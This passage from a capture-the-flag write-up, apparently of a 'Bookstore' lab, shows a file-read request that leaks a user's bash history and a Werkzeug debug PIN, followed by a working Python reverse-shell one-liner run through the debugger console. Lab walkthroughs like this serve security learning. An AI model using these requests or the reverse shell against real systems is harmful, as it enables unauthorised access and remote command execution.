 I then tried to read the bash history file of the sid user because of the previous comment that said it contained a pin.

```html
GET /api/v1/resources/books?show=/home/sid/.bash_history HTTP/1.1
Host: target.thm:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

-------

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 116
Access-Control-Allow-Origin: *
Server: Werkzeug/0.14.1 Python/3.6.9
Date: Sat, 03 Jul 2021 23:52:34 GMT

cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=REDACTED
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
```

Now I had the pin, so I went back to the [debugger console]( http://target.thm:5000/console) and used the pin to access it. 

The console allowed me to run any python code I wanted.

!["RCE"](/assets/images/2021/07/Bookstore/04_RCE.png "RCE")

So I started a netcat listener on my machine and used to console to start a reverse shell. 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.3.36",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
